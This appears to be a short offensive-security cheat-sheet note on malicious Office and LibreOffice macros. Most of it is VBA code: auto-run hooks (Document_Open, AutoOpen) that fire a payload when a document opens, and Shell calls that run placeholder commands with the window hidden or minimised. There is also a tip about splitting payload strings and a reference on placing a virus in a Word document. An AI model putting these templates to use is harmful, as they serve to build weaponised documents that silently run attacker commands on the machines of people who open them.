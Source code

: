 # Office Macros

> [!INFO] Limited String Characters
> VBA Macro has a 50 characters string limit so you have to concatenate it. Use [[Macro Formatting Scripts|scripts]] to split the chunks.

## 01 - Execute Macros When Enabled

Base template when macro is being executed.

```vbscript
Sub Document_Open()
    Call Payload
End Sub

Sub AutoOpen()
    Call Payload
End Sub
```

## 02 - Microsoft Office

Execute the command while hiding the window.

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", vbHide)
End Sub
```

Execute the command while minimizing the window.

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", vbMinimizeFocus)
End Sub
```

## 03 - Libreoffice

```vbscript
Sub ExecuteCommands()
	Shell("<commands>", 2)
End Sub
```

---
## References

### Backlinks

- [[Document Templates]]

### LibreOffice

- [LibreOffice: `Shell` Function](https://help.libreoffice.org/latest/lo/text/sbasic/shared/03130500.html?DbPAR=BASIC)

### Null Byte

- [Null Byte: How to Place a Virus in a Word Document for Mac OS X](https://null-byte.wonderhowto.com/how-to/place-virus-word-document-for-mac-os-x-0170169/)